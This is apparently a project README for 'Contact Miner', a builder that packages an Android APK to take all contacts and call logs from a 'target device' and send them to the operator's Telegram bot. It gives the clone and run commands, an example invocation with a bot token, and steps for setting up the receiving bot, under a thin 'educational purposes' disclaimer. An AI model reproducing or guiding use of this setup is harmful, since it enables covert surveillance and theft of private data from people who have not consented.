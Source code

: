 <div align="center">
  <img src="/images/icon.png" width="30%" />
  <h1 align="center">Contact Miner</h1>
  <h3>Yet another user-friendly and lightweight tool for monitoring contacts and call logs on Android devices.</h3>
  <h4>This software is exclusively designed for educational purposes ⚠️</h4>
</div>

## Features
- <strong>Contact collection:</strong> With this tool, you can easily retrieve all contacts from the target device.
- <strong>Call logs collection:</strong> Utilizing this tool enables you to acquire all call logs from the target device.
- <strong>Light weight:</strong> The ContactMiner APK file is minimized to ensure ease of installation on the target device.

## Setup and installation

### Step 1

```
git https://github.com/mkdirlove/ContactMiner.git
```
```
cd ContactMiner
```
```
bash contactminer.sh
```

### Usage

```
  ___         _           _   __  __ _              
 / __|___ _ _| |_ __ _ __| |_|  \/  (_)_ _  ___ _ _ 
| (__/ _ \ ' \  _/ _` / _|  _| |\/| | | ' \/ -_) '_|
 \___\___/_||_\__\__,_\__|\__|_|  |_|_|_||_\___|_|  
                                                    
  Made with <3 by @mkdirlove             v1.0-dev

Using tools:
  APKTool: apktool
  Jarsigner: jarsigner

Usage: contactminer.sh --tg_id <id_content> --tg_bot_token <bot_token> --sign <sign_option>
```

### Example Usage

```
bash contactminer.sh --tg_id 1234578 --tg_bot_token DFGD34dfgtry34 --sign yes
```

### Step 2
Obtain your Telegram bot token and your numeric Telegram id.

<strong>Create a Telegram bot:</strong>

Open BotFather on your telegram acccount: [Open BotFather](https://t.me/BotFather)

Start BotFather and send <strong>/newbot</strong> commend and then BotFather will ask you to enter a name and a username for your bot.

After that BotFather will create your bot, copy and save your bot token and click on your bot username and start it.

<p float="left">
  <img src="/images/prv1.png" width="20%" />
  <img src="/images/prv2.png" width="20%" />
</p>

<strong>Obtain your numeric id:</strong>

To obtain your teleram account numeric id you need to start @userinfobot Teleram bot

[Click here to start userinfobot Telegram bot](https://t.me/userinfobot)

After starting this bot, the bot will send you your numeric telegram id

<p float="left">
  <img src="/images/prv3.png" width="20%" />
</p>





